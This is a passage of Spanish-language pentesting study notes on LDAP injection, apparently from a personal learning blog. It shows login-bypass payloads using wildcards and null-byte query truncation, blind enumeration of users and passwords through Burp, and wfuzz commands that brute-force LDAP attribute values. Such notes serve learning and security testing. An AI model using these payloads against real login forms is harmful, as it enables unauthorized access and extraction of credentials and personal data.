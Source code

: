 Piensa que la estructura por detrás suele ser algo así:
```
(&(cn=admin)(password=loquesea))
# & es de operador AND. Si estuviera | sería de OR.
```
Una simple inyección sería poner un **asterisco** en el campo de contraseña y/o usuario. Si está mal sanitizado podrías acceder. Incluso con el juego de asteriscos buscar usuarios y contraseñas, por ejemplo si existe el usuario admin podríamos hacer desde el **burpsuite**:
```
user:a*&password=*   Saldría mensaje de acceso por ejemplo.
Otra petición: 
user=b*&password=*   Saldría otro mensaje, error por ejemplo. Dado que no hay usuarios que empiezen por b. De esta manera podríamos ir sacando usuarios y contraseñas. Interesante sería montarte un script en python.
```
Otra inyección posible sería cerrar la query así:
```
user=admin))%00&password=test

# Con esto )) lo que hacemos es cerrar la query y con el %00 es obviar todo lo que sigue. Sería como pedirle; Accede con el usuario admin y punto.
```
Podríamos buscar otros atributos jugando combinadamente con las dos anteriores inyecciones:
```
# El concepto sería el siguiente, pero habría que pasarlo por alguna herramienta que nos aplicará la fuerza bruta. Usaremos wfuzz.

user=admin)(FUZZ=*))%00&password=test

# Buscaremos atributos(FUZZ) y atenderemos a las respuestas
```
```bash
> wfuzz -c -w /usr/share/SecLists/Fuzzing/LDAP-openldap-attributes.txt -d 'user=*)(FUZZ=*))%00&password=test' http://IP

# Tendrías que filtrar luego según las respuestas recibidas.
```
Imagina que te saca un atributo llamado numberphone:
```bash
> wfuzz -c -z range,0-9 -d 'user=admin)(numberphone=FUZZ*))%00&password=test' http://IP

# Te sacaría el primer número correcto. Si fuera el 7. Tendrías que seguir con numberphone=7FUZZ* y así. Está chulo.
```
Tengo un script en python para este ataque en el post **scripts_Python**. Este script está basado en uno que hizo s4vitar en su academia para esta misma vulnerabilidad.

- - - 

## Inyecciones LaTex

### ¿En qué consiste?
